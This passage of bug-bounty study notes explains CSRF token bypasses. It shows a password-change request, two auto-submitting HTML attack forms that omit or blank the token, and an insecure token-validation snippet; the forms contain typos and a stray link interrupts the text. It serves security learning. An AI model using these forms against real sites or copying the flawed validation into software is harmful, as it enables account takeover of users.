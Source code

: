   ```
  POST /password_change
  Host: email.example.com
  Cookie: session_cookie=YOUR_SESSION_COOKIE

  (POST request body)
  new_password=adc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
  ```

  - You can change the last line containing the csrf_token to be either:
    `new_password=abc123` or,
    `new_password=abc123&csrf_token=`
  - The HTML form for these would look like the following, respectively:

  ```
  <html>
    <form method="POST" action="https://email.example.com/password_change" ud="csrd-form">
      <input type="text" name="new_password" value="abc123">
      <input type='submit' value="submit">
    </form>
    <script>document.getElementById("CSRF-form").submit();</script>
  </html>
  ```

  https://github.com/Xerips/BookNotes/blob/main/BugBountyBootcamp/BugBountyBootcamp.md#chapter-21-information-disclosure)
  and:

  ```
    <html>
    <form method="POST" action="https://email.example.com/password_change" ud="csrd-form">
      <input type="text" name="new_password" value="abc123">
      <input type="text" name="csrf_token" value="">
      <input type='submit' value="submit">
    </form>
    <script>document.getElementById("CSRF-form").submit();</script>
  </html>
  ```

  - These types of bypass can often work because applications often only validate the token _if_ the token exists, or if the token parameter isn't blank.
  - The following is a code example of insecure csrf token validation:

  ```
  def validate_token():
    if (request.csrf_token == session.csrf_token):
      pass
    else:
      throw_error("CSRF token incorrect. Request rejected.")
  [...]

  def process_state_changing_action():
    if request.csrf_token:
      validate_token()
    execute_action()
  ```
